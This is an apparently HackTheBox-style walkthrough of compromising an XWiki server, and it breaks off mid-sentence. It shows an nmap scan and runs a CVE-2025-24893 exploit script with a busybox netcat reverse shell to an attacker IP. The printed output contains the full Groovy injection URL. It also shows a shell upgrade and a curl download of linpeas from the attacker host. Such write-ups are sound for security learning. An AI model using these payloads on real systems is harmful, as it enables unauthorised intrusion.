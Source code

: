 ## Init

The ip I am assigned is `10.10.11.80`. I do a `nmap` scan and find some ports open.
```                                      
┌──(truelyyours㉿kali)-[~/tryhackme/SimpleCTF]
└─$ nmap -sV -A 10.10.11.80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 02:42 EDT
Illegal character(s) in hostname -- replacing with '*'
Illegal character(s) in hostname -- replacing with '*'
Nmap scan report for editor.htb* (10.10.11.80)
Host is up (0.097s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_http-server-header: Jetty(10.0.20)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   85.81 ms 10.10.16.1
2   44.21 ms editor.htb* (10.10.11.80)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```
It looks like an HTTP service running on port 80 and an xwiki on port 8080. Here we can access some posts by a user named `Neal Bagwell` and we can access the user's page as well `http://10.10.11.80:8080/xwiki/bin/view/XWiki/neal`. Of course usually port 80 is open but we have Xwiki on port 8080 so I lookup for any CVEs on Xwiki. And we have [**CVE-2025-24893**](https://www.offsec.com/blog/cve-2025-24893/)!

## CVE Exploit
There does not exist any working Metasploit module yet, but we have [this GitHub link](https://github.com/gunzf0x/CVE-2025-24893/blob/main/CVE-2024-24893.py) that implements the exploit to achieve remote RCE. We can use this to spawn a shell locally and navigate the target system. 
```
┌──(truelyyours㉿kali)-[~/htb/editor]
└─$ python3 CVE-2025-24893.py -t 'http://10.10.11.80:8080' -c 'busybox nc 10.10.16.16 4444 -e /bin/bash'
[*] Attacking http://10.10.11.80:8080
[*] Injecting the payload:
http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22busybox%20nc%2010.10.16.16%204444%20-e%20/bin/bash%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
[*] Command executed

~Happy Hacking
```

![[Pasted image 20250810030501.png]]

This shell is not that beautiful so I just do `python3 -c 'import pty; pty.spawn("/bin/bash")'` so have a better shell. Yaaye!
## Lateral Privilege Escalation

I start by installing `linpeas.sh` on the remote host and run it. I installed `linpeas.sh` by exposing a `http.server` locally and then simply `curl -LO 10.10.16.16:8000/linpeas.sh`.
While this outputs many things, I was not able to find anything directly here. Sad.

Instead I noticed that within `/home` there is folder for username `oliver`. So, I tried finding a password. I had to do manual lookups and 



